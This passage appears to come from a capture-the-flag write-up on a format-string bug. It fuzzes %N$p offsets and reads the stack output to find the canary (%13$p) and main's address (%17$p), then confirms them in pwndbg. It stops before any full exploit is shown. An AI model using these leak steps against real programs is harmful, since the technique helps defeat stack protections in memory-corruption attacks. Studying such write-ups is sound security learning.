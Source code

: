 its on %6$s

changing from %s to %p we can try to find the canary values and main address

```python
$ python fuzz.py 
1: b'0x7ffc4a4aa570'
2: b'(nil)\x00\x00\x00'
3: b'(nil)\x00\x00\x00'
4: b'0x4\x00\x00\x00\x00\x00'
5: b'0x7f01191c0aa0'
6: b'0x7ffc7ecb1fae'
7: b'(nil)\x00\x00\x00'
8: b'(nil)\x00\x00\x00'
9: b'0x2439250000000000'
10: b'0x7024\x00\x00'
11: b'(nil)\x00\x00\x00'
12: b'(nil)\x00\x00\x00'
13: b'0xce7df4b5024c6b00'
14: b'0x1\x00\x00\x00\x00\x00'
15: b'0x7fc39c62a6ca'
16: b'(nil)\x00\x00\x00'
17: b'0x55817ada0374'
18: b'0x100000000'
19: b'0x7ffeb3a272a8'
20: b'0x7ffe4b955088'
21: b'0x4ecced99680d75cf'
22: b'(nil)\x00\x00\x00'
23: b'0x7fff875ae308'
24: b'0x559e87235d50'
```

doing this multiple times we can say that 
- %13$p is the canary value (00 at the end)
- %17$p is the main address (not 0x7f or 0xff at the start and seems like legit address value)
we can confirm our main address using gdb

```python
pwndbg> tele $rsp 30
00:0000│ rsp 0x7fffffffdc60 —▸ 0x7fffffffedd9 ◂— 0x474458006f6b6f79 /* 'yoko' */
01:0008│-038 0x7fffffffdc68 ◂— 0x0
02:0010│-030 0x7fffffffdc70 ◂— 0x0
03:0018│-028 0x7fffffffdc78 ◂— 0x610000000000
04:0020│-020 0x7fffffffdc80 ◂— 0x0
... ↓        2 skipped
07:0038│-008 0x7fffffffdc98 ◂— 0xcb1f6510ae22e500
08:0040│ rbp 0x7fffffffdca0 ◂— 0x1
09:0048│+008 0x7fffffffdca8 —▸ 0x7ffff7def6ca (__libc_start_call_main+122) ◂— mov edi, eax
0a:0050│+010 0x7fffffffdcb0 ◂— 0x0
0b:0058│+018 0x7fffffffdcb8 —▸ 0x555555555374 (main) ◂— endbr64 
0c:0060│+020 0x7fffffffdcc0 ◂— 0x100000000
```

```python
pwndbg> p 0x7fffffffdc60-0x7fffffffdcb8
$1 = -88
```
